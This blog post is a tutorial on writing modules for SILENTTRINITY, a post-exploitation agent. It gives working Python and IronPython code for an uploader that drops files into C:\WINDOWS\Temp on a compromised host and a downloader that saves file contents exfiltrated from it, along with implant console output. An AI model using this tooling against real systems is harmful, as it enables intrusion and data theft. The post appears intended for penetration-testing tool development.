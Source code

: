 ```yaml
---
layout: post
title:  "Writing a basic Module for SILENTRINITY"
date:   2018-10-21 18:47:00 -0400
categories:
  - Code
tags:
  - Python
  - SILENTTRINITY
  - IronPython
  - Pentesting
---
```


***SILENTTRINITY*** is a post-exploitation agent powered by Python, IronPython and C#/.NET written by [byt3bl33d3r](https://twitter.com/byt3bl33d3r), also author of [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec), the swiss army knife for pentesting networks. SILENTTRINITY was presented at DerbyCon 8.0 and everybody was really impressed (yes, I was also there). I really like C# (.NET) and Python, those are my favorites programming languages and [IronPython](https://github.com/IronLanguages/ironpython2) looks really promising. So why not contribute to this project? ![SILENTTRINITY][SILENTTRINITY-screenshot]

### How does this work?

The next image explains by itself how is the dynamic here. ![SILENTTRINITY-DIAGRAM][SILENTTRINITY-diagram]

The idea is really simple: we run our initial stager, the target ask for the payload and the encrypted communication continues back and forward waiting for a job, once a job is received the target executes the job (written in IronPython) and the output is sent to the server. I highly recommend to watch Marcello's talk to have a better idea of what we're talking about here and learn the beauty of SILENTTRINITY:

[![Track 2 05 IronPython omfg Marcello Salvati](https://img.youtube.com/vi/NaFiAx737qg/0.jpg)](https://www.youtube.com/watch?v=NaFiAx737qg)

### Let's code, baby!

This is the fun part. In order to have your Developer Environment up and running follow this Wiki: [Setting up your development environment](https://github.com/byt3bl33d3r/SILENTTRINITY/wiki/Setting-up-your-development-environment). I'm using [PyCharm Community Edition](https://www.jetbrains.com/pycharm/) and I'm running [Python 3.7.0](https://www.python.org/downloads/release/python-370/) on macOS. After creating a *virtualenv* and importing the `Server` folder into the IDE, we're ready to write some code, but first I'm sharing my PyCharm setting to show you how to properly debug Console apps:

![PyCharm Debug][SILENTTRINITY-pycharm-debug]

Cool. I'm going to use a simple module written by me called [Uploader](https://github.com/byt3bl33d3r/SILENTTRINITY/pull/12).

```python
class STModule:
    def __init__(self):
        self.name = 'uploader'
        self.description = 'Upload a file to a destination path.'
        self.author = '@davidtavarez'
        self.options = {
            'File': {
                'Description': 'The absolute path of the file.',
                'Required': True,
                'Value': None
            },
            'Destination': {
                'Description': 'The destination path of the file.',
                'Required': False,
                'Value': "C:\\\\WINDOWS\\\\Temp\\\\"
            }
        }

    def payload(self):
        if self.options['File']['Value'] is None:
            return None

        import os
        import base64

        if not os.path.exists(self.options['File']['Value']):
            from core.utils import print_bad
            print_bad("Selected file do not exists.")
            return None

        with open(self.options['File']['Value'], "rb") as file:
            encoded_string = base64.b64encode(file.read()).decode("utf-8")

        with open('modules/src/uploader.py', 'r') as module_src:
            src = module_src.read()
            src = src.replace("FILENAME", os.path.basename(self.options['File']['Value']))
            src = src.replace("DESTINATION", self.options['Destination']['Value'])
            src = src.replace("DATA", encoded_string)
            return src.encode()
```

As you can notice, the class of the Module must be called `STModule` and must include a `Constructor` and a definition of a method called `payload`. Our constructor must contains at least the next properties:

* ***name***: the name of the module.
* ***description***: a short summary of what your modules does.
* ***author***: your handle.
* ***options***: the options accepted in your module.

All options are displayed after we selecte to use the module and run the `options` command:

```
ST (modules) ≫ use uploader  
ST (modules)(uploader) ≫ options
+-------------+----------+---------------------+-----------------------------------+
| Option Name | Required | Value               | Description                       |
+-------------+----------+---------------------+-----------------------------------+
| File        | True     | None                | The absolute path of the file.    |
+-------------+----------+---------------------+-----------------------------------+
| Destination | False    | C:\\WINDOWS\\Temp\\ | The destination path of the file. |
+-------------+----------+---------------------+-----------------------------------+
ST (modules)(uploader) ≫
```

To set a value we need to use the `set` command like this:

```
ST (modules)(uploader) ≫ set File /Users/davidtavarez/uploader.txt
ST (modules)(uploader) ≫ options
+-------------+----------+----------------------------------+-----------------------------------+
| Option Name | Required | Value                            | Description                       |
+-------------+----------+----------------------------------+-----------------------------------+
| File        | True     | /Users/davidtavarez/uploader.txt | The absolute path of the file.    |
+-------------+----------+----------------------------------+-----------------------------------+
| Destination | False    | C:\\WINDOWS\\Temp\\              | The destination path of the file. |
+-------------+----------+----------------------------------+-----------------------------------+
ST (modules)(uploader) ≫ 
```

### The payload

The payload that is written in IronPython is sent to the target using the `payload` method and the source code should be placed inside the folder named `src`.

```python
from System import Convert
from System.IO import File


def DecodeBase64File(Data, FileName, FilePath="C:\\WINDOWS\\Temp\\"):
    path = "{}{}".format(FilePath, FileName)
    File.WriteAllBytes(path,Convert.FromBase64String(Data))
    return 'File copied to: {}'.format(path)

print DecodeBase64File("DATA", "FILENAME", FilePath="DESTINATION")
```

The "tricky" part resides here: `print DecodeBase64File("DATA", "FILENAME", FilePath="DESTINATION")`. We're calling `print` to read the results of `DecodeBase64File`, so that output is sent to the server:

```
ST (modules)(uploader) ≫ run all
[+] d53c4737-c23e-4ec6-875a-c59e8ffa7056 returned job result (id: TmbazEXM)
File copied to: C:\WINDOWS\Temp\uploader.txt
```

Going back to the module code, we're replacing *DATA* with the content of the file named *FILENAME* and then, passing the *DESTINATION* folder to the payload.

That's it! Summarizing, there are just two steps:

1. Create a class called: STModule with a constructor and a method named: `payload`.
2. Create your IronPython payload and pass the values taken from `options`.

### But... there's more...

I really wanted to manage the output using my module, so I send a [Pull Request](https://github.com/byt3bl33d3r/SILENTTRINITY/pull/15) for this. This is how my base class looks now:

```python
class Module:
    def __init__(self):
        self.name = 'module'
        self.description = ''
        self.author = ''
        self.options = {}

    def process(self, result):
        print(result)
```

I did create a new module called: [Downloader](https://github.com/byt3bl33d3r/SILENTTRINITY/pull/15/commits/f1c73b3341b91fea01988f18af9b60bcde6767ab) just as PoC:


```python
...
    def process(self, result):
        b64_string = result.replace("\n", "").replace("\r", "")
        b64_string += "=" * ((4 - len(b64_string) % 4) % 4)
        b64_string = b64_string.encode()

        ba = bytes(b64_string)

        with open(self.path, "wb") as file:
            file.write(base64.decodebytes(ba))

        print_good("File was downloaded successfully: {}".format(self.path))
```

Now we can have control of the response.

[SILENTTRINITY-screenshot]: https://raw.githubusercontent.com/davidtavarez/davidtavarez.github.io/master/_images/posts/SILENTTRINITY_screenshot.png
[SILENTTRINITY-diagram]: https://user-images.githubusercontent.com/5151193/46646842-cd2b0580-cb49-11e8-9218-73226e977d58.png
[SILENTTRINITY-pycharm-debug]: https://raw.githubusercontent.com/davidtavarez/davidtavarez.github.io/4aa7a53f11c9ce9ed9957e60b1abace95afe5dda/_images/posts/pycharm_debug_SILENTTRINITY.png